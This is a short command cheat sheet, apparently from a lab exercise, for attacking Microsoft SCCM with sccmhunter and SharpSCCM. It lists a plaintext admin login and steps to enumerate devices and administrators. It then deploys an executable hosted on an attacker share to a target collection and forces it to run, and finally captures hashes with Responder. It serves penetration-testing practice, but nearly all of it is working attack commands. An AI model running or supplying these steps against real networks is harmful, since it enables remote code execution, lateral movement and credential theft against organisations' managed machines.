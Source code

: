 ```sh
# Get ID of resource
python3 sccmhunter.py admin -u rai -p 'Pxetesting01' -ip 172.50.0.40

# Get info target
() C:\ >> get_device SCCM-SMS
.\SharpSCCM.exe get devices -n SCCM-SMS -sms 172.50.0.40

# Interact target
() (C:\) >> interact 16777221

# Check administrators
(16777221) (C:\) >> administrators

# View files
(16777221) (C:\) >> ls

```

[SharpSCCM](https://github.com/Mayyhem/SharpSCCM) can help to enumerate and abuse SCCM infrastructure.

```powershell
# Check privileges
.\SharpSCCM.exe get class-instances SMS_Admin -p CategoryNames -p CollectionNames -p LogonName -p RoleNames -sms 172.50.0.40

# Search targets
.\SharpSCCM.exe get primary-users -u blwasp -sms 172.50.0.40

# LIst SCCM Devices
.\SharpSCCM.exe get devices -w "Active=1 and Client=1" -sms 172.50.0.40

# Create a new application
.\SharpSCCM.exe new application -s -n HTB_application -p \\10.10.14.207\share\test.exe -sms 172.50.0.40

# Create new device collection
.\SharpSCCM.exe new collection -n "new_collection" -t device -sms 172.50.0.40

# Add target computer to collection
.\SharpSCCM.exe new collection-member -d SRV01 -n "new_collection" -t device -sms 172.50.0.40

# Create new deployment
.\SharpSCCM.exe new deployment -a HTB_application -c "new_collection" -sms 172.50.0.40

# Wait for execution or try invoking
.\SharpSCCM.exe invoke update -n "new_collection" -sms 172.50.0.40

# Get hash on responder or HTTP relay
sudo responder -I tun0 -v -A
```

